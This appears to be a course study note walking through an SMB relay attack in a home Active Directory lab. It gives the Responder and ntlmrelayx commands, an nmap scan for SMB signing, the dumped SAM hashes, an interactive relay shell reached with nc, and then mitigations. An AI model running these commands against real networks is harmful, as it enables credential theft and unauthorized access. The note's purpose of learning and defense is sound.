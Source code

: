 #cybersecurity #hacking #penetration-testing 
#active-directory #smb 

# SMB Relay Attack

## SMB Relay Attacks Overview

#### What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

#### Requirements

- SMB signing must be disabled on the target
- Relayed user credentials must be admin on machine

>Note: In this case Vegeta is admin on both the Planet Vegeta Machine and Earth Machine

1. Edit the responder configuration file ```gedit Responder.conf```
![](https://i.imgur.com/zMDNVcs.png)
2. Run Responder ```python Responder.py -| tun0 -dw```
3. Set up the relay ```python ntlmrelayx.py -tf targets.txt -smb2support```
4. An event occurs: point the Win10box at a machine but DNS fails, responder kicks in and relays creds to another machine
5. Credentials are relayed to another machine

>Vegeta is an admin on the Earth machine too so if his hash is relayed to the Earth Machine we should be able to get access to that machine as well

![](https://i.imgur.com/mfo883Z.png)

## Discovering Hosts with SMB Signing Disabled

Several ways to do this:
- Nessus
- Nmap
- Search github for smb checker

### NMAP Way

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.2.0/24
```

Output:
![](https://i.imgur.com/CXIZBIQ.png)

We can see the server (192.168.2.135) has signing required but the individual windows 10 machines do not:

![](https://i.imgur.com/vDnBc5f.png)

Create a ``targets.txt`` file with ``192.168.2.137``: Win10-Earth Machine

## SMB Relay Attack Part 1

Need to turn off SMB and HTTP:

![](https://i.imgur.com/zMDNVcs.png)

Run responder

```bash
repsonder -I eth0 -dw
```

![](https://i.imgur.com/EAPpNEU.png)

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box)
It responds with an error but dumps the SAM hash because Vegeta is admin on the Win10-Earth Machine as well

![](https://i.imgur.com/UqCRwgH.png)

SAM Hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bcd858e95a29844cea73b5bc3bf76117:::
Goku:1003:aad3b435b51404eeaad3b435b51404ee:403f92cda3c8066381327fba611a6a9e:::
```

## SMB Relay Attack Part 2

Get an interactive shell from the SMB relay attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
```

Again I point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box). This is the "event" where DNS fails and the SMB Relay begins.

![](https://i.imgur.com/6v6Ptex.png)

```bash
nc 127.0.0.1 11000
```

![](https://i.imgur.com/WW36jQA.png)


Rewatch the end of https://academy.tcm-sec.com/courses/1152300/lectures/24780884


## SMB Relay Attack Defenses : Mitigation Strategies

### Enable SMB Signing on all devices
Pro: Completely stops the attack
Con: Can cause performance issues with file copies
### Disable NTLM authentication on network
Pro: Completely stops the attack
Con: If Kerberos stops working, Windows defaults back to NTLM
### Account tiering:
Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
Con: Enforcing the policy may be difficult
### Local admin restriction:
Pro: Can prevent a lot of lateral movement
Con: Potential increase in the amount of service desk tickets